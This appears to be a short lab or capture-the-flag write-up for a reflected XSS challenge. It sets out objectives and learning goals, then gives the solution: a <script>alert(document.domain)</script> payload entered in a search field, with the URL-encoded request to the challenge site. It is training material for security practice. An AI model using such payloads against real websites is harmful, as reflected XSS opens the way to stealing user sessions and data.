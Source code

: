 # Challenge #1 - Poema Reading club 2

## Objectives

- Since XSS is an input validation attack, you should first determine which pages accept user input. Not all of these are subject to XSS, but it is a good subset to begin with.
- Then, try to insert HTML tags as probes to verify if any XSS is present. Make sure to understand what kind of code you can inject, if HTML or also JavaScript.

## Hints

- XSS Reflected

## What you will learn

- How to find basic XSS
- How XSS an affect a web page
- How to make the most basic exploitation of an XSS vulnerability

## Steps

Just add the payload on the search field.

Payload: <script>alert(document.domain)</script>

```
http://1.challenge.xss.site/search.php?term=%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
```